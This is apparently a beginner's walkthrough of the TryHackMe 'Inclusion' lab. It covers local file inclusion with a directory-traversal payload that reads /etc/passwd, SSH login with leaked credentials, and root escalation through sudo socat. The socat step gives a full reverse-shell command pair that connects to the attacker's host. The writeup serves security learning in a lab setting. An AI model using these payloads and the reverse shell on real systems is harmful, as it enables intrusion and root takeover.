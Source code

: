 ```yaml
---
title: Inclusion Writeup
date: 2020-03-2
description: A beginner-friendly writeup on TryHackMe's Inclusion challenge. 
tags:
  - Writeup
  - TryHackMe
  - Security
banner: ./defence-against-the-dark-arts.jpg
---
```


## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 

![1.png](1.png)

From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.

![2.png](2.png)

It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.

![3.png](3.png)

Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 

![4.png](4.png)

There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 

![5.png](5.png)

After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.

![6.png](6.png)

Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l

![7.png](7.png)

It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane

![8.png](8.png)

Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 

![9.png](9.png)

The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.

The flags can be accessed directly through the URL if you are familiar with the location of the flags. 

![10extra.png](10extra.png)

User Flag

![11extra.png](11extra.png)

Root Flag

## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 

I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)
